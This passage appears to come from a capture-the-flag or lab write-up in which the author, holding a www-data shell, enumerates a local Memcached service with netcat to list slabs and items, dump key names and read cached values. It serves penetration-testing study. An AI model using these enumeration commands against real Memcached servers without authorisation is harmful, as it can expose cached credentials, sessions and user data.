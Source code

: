 Hmm... **Memcached**??

> Memcached is a general-purpose distributed memory-caching system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source must be read. (Source: [Wikipedia](https://en.wikipedia.org/wiki/Memcached))

**According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache#manual), we can do some enumeration to Memcache on port 11211!**

To exfiltrate all the information saved inside a memcache instance you need to:

1. Find **slabs** with **active items**
2. Get the **key names** of the slabs detected before
3. Exfiltrate the **saved data** by **getting the key names**

Remember that this service is just a **cache**, so **data may be appearing and disappearing**.

```
echo "version" | nc -vn -w 1 127.0.0.1 11211      #Get version
echo "stats" | nc -vn -w 1 127.0.0.1 11211        #Get status
echo "stats slabs" | nc -vn -w 1 127.0.0.1 11211  #Get slabs
echo "stats items" | nc -vn -w 1 127.0.0.1 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn -w 1 <IP> 11211  #Get key names (the 0 is for unlimited output size)
echo "get <item_name>" | nc -vn -w 1 127.0.0.1 11211  #Get saved info
```

**Get slabs:**
```
www-data@osboxes:/$ echo "stats slabs" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
STAT 1:chunk_size 80
STAT 1:chunks_per_page 13107
STAT 1:total_pages 1
STAT 1:total_chunks 13107
STAT 1:used_chunks 5
STAT 1:free_chunks 13102
STAT 1:free_chunks_end 0
STAT 1:mem_requested 321
STAT 1:get_hits 0
STAT 1:cmd_set 215
STAT 1:delete_hits 0
STAT 1:incr_hits 0
STAT 1:decr_hits 0
STAT 1:cas_hits 0
STAT 1:cas_badval 0
STAT 1:touch_hits 0
STAT active_slabs 1
STAT total_malloced 1048560
END
```

**Get items of slabs with info:**
```
www-data@osboxes:/$ echo "stats items" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
STAT items:1:number 5
STAT items:1:age 3376
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 0
```